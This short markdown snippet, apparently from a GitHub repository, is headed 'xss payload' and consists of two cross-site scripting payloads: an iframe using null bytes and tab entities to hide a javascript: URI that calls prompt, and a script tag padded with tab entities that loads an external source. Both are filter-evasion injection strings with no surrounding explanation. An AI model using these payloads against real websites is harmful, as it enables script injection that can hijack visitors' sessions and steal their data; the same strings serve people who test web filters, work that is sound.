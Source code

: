 # xss payload

```
<iframe %00 src="&Tab;javascript:prompt(http://google.com)&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>

```
